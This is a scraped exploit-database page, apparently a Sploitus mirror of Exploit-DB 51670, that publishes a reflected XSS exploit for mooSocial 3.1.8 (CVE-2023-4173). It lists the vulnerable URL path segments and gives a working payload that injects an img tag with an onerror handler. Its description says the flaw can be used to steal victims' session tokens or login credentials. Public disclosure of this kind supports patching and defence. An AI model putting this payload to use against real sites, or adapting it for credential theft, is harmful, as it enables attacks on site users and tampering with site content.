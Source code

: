 ```yaml
---
title: mooSocial 3.1.8 - Reflected XSS exploit
url: https://sploitus.com/exploit?id=EDB-ID:51670&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-09
fetch_date: 2025-10-04T11:59:53.019150
---
```


# mooSocial 3.1.8 - Reflected XSS exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for mooSocial 3.1.8 - Reflected XSS CVE-2023-4173

2023-08-08 | CVSS 6.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51670
# Exploit Title: mooSocial 3.1.8 - Reflected XSS
# Exploit Author: CraCkEr
# Date: 28/07/2023
# Vendor: mooSocial
# Vendor Homepage: https://moosocial.com/
# Software Link: https://travel.moosocial.com/
# Version: 3.1.8
# Tested on: Windows 10 Pro
# Impact: Manipulate the content of the site
# CVE: CVE-2023-4173

## Greetings

The_PitBull, Raz0r, iNs, SadsouL, His0k4, Hussin X, Mr. SQL , MoizSid09, indoushka
CryptoJob (Twitter) twitter.com/0x0CryptoJob

## Description

The attacker can send to victim a link containing a malicious URL in an email or instant message
can perform a wide variety of actions, such as stealing the victim's session token or login credentials

URL path folder is vulnerable to XSS

https://website/classifieds[XSS]/search?category=1

https://website/classifieds/search[XSS]?category=1

XSS Payloads:

ijz3y"><img src=a onerror=alert(1)>y4apk

[-] Done
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)